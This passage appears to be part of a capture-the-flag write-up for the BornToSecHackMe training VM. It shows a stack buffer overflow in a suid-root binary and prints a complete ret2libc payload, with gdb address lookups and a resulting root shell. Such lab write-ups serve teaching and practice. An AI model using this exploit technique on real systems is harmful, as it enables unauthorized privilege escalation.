 So we can suppose we need to process it through a message digest algorithm like md5, which gives us: **646da671ca01bb5d84dbb5fb2238dc8e**

---

## Step 10 - Zaz / Exploit-me

We try the digest as zaz password and it works. We can see in his home folder a **binary** called **exploit-me**, and we see it **copies** the **input** we give it as the first argument **on its stack without verification**.

We use both the pattern generator on this website: https://wiremask.eu/tools/buffer-overflow-pattern-generator/? and gdb to calculate the offset of bytes after which the program segfaults/rewrite on eip, and it's 140.

We use a **ret2libc attack** to open a shell as root, since **exploit-me** is **owned by root** and has the **suid**.

```
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
(gdb) find 0xb7e6b060, +9999999, "/bin/sh"
0xb7f8cc58
```

The system address will replace the eip, and the "/bin/sh" address will be use as its argument.
We now need to write these addresses in little endian, so here is our payload:

```
zaz@BornToSecHackMe:~$ ./exploit_me $(python -c 'print "A"*140 + "\x60\xb0\xe6\xb7" + "AAAA" + "\x58\xcc\xf8\xb7"')
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`��AAAAX���
# whoami
root
# id  
uid=1005(zaz) gid=1005(zaz) euid=0(root) groups=0(root),1005(zaz)
```

And we are root!
